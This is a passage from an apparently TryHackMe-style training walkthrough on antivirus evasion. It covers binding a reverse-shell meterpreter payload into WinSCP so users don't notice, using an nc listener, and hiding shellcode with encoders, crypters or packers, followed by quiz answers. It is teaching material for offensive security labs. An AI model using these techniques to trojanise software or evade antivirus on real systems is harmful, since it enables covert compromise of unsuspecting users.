The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an `nc` listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:



### Binders and AV

Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

Feel free to try and upload your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing, and you should get a detection back from the server, so this method won't be of much help when trying to get the flag from the server by itself.

:::info Answer the questions below

<details>

<summary> Will a binder help with bypassing AV solutions? (是/否) </summary>

```plaintext
nay
```

</details>

<details>

<summary> Can a binder be used to make a payload appear as a legitimate executable? (yea/nay) </summary>

```plaintext
yea
```

</details>

:::

## Task 11 Conclusion

In this room, we have explored some strategies available to an attacker to circumvent AV engines that rely on disk-based detection only. While this is just one of the mechanisms available to any modern AV engine, we should be able to at least deliver our payloads to our victim's disk as a first step. Bypassing in-memory detection and other advanced detection mechanisms are left for a future room. You may want to check the [Runtime Detection Evasion](https://tryhackme.com/room/runtimedetectionevasion) for more information on bypassing further Windows security mechanisms that may prevent your payloads from triggering.

Remember that the success of any encrypter, encoder or packer, will largely depend on AV engines not knowing any signatures for them. Therefore, being able to customize your own payloads is critical when trying to bypass any real-world solution.

:::info Answer the questions below

<details>

<summary> Click and continue learning! </summary>

```plaintext
No answer needed
```

</details>

:::
